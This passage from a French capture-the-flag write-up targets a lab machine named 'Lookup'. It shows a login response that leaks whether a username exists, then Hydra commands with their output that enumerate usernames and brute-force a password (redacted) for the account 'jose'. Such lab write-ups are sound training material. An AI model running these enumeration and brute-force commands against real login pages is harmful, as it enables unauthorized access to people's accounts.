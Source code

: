 En revanche, si nous tentons un autre nom d'utilisateur, le message change, ici avec le *username* "test" :

```http
HTTP/1.1 200 OK
Date: Sun, 16 Feb 2025 10:41:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Refresh: 3; url=http://lookup.thm
Vary: Accept-Encoding
Content-Length: 74
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

Grâce à cette information, nous allons pouvoir tenter de trouver des noms d'utilisateur existants avec {% include dictionary.html word="Hydra" %}.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -p test lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=username"
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-16 11:47:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 624370 login tries (l:624370/p:1), ~39024 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=username
[80][http-post-form] host: lookup.thm   login: admin   password: test
[80][http-post-form] host: lookup.thm   login: jose   password: test
{% endcapture %}
{% include elements/spoil.html %}

Nous avons trouvé un autre nom d'utilisateur pour lequel nous allons tenter de trouver le mot de passe de la même manière.

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=password" -I -f
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-16 11:53:27
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=password
[80][http-post-form] host: lookup.thm   login: jose   password: [...expurgé...]
[STATUS] attack finished for lookup.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-16 11:53:59
{% endcapture %}
{% include elements/spoil.html %}
